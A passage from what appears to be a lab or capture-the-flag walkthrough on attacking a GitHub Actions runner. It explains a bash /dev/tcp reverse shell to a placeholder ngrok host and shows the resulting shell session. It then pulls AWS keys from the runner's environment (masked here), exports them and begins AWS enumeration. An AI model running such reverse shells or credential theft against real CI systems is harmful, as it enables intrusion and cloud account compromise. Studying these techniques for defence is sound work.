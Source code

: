 
This command sets up a reverse shell from a target machine (github action runner) to a listening server (the attacker's machine).   
Let's break down what each part of the command does:

 
1. `bash -i`: Launches an interactive Bash shell (`-i` flag).
 
2. `>& /dev/tcp/<NGROK-IP-HERE>/<NGROK-PORT-HERE>`: Redirects both stdout and stderr of the Bash shell to a TCP connection to `<NGROK-IP-HERE>` on `<NGROK-PORT-HERE>`.  
  Here's how this redirection works:  
  - `>&` combines the stdout (`1`) and stderr (`2`) streams.
 
  - `/dev/tcp/<NGROK-IP-HERE>/<NGROK-PORT-HERE>` is a special device in Unix-like systems that allows Bash to open a TCP connection to `<NGROK-IP-HERE>` at `<NGROK-PORT-HERE>`.
 
3. `0>&1`: Redirects stdin (file descriptor `0`) to the same place as stdout (file descriptor `1`). This ensures that all input and output from the Bash shell session are sent over the network connection established with NGROK.



Now you have a remote shell on the runner!  


```console
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 40158
bash: cannot set terminal process group (469): Inappropriate ioctl for device
bash: no job control in this shell
runner@fv-az1655-134:~/work/ppe/ppe$ whoami
runner
runner@fv-az1655-134:~/work/ppe/ppe$ id
uid=1001(runner) gid=127(docker) groups=127(docker),4(adm),101(systemd-journal)
```   

At this point you have access to that runner environment and you find some aws keys!    

```sh
runner@fv-az1655-134:~/work/ppe/ppe$ env | grep AWS

AWS_SECRET_ACCESS_KEY=kG***************************************
AWS_ACCESS_KEY_ID=AK*****************
```  

save those keys and close the reverse shell:

**AWS ENUMERATION BEGIN!**  




Export those keys in order to use them with the aws cli:  
```sh
export AWS_ACCESS_KEY_ID=AK*****************
export AWS_SECRET_ACCESS_KEY=kG***************************************
```  

Now retrieve information about your current aws identity:  
```sh
aws sts get-caller-identity
```  
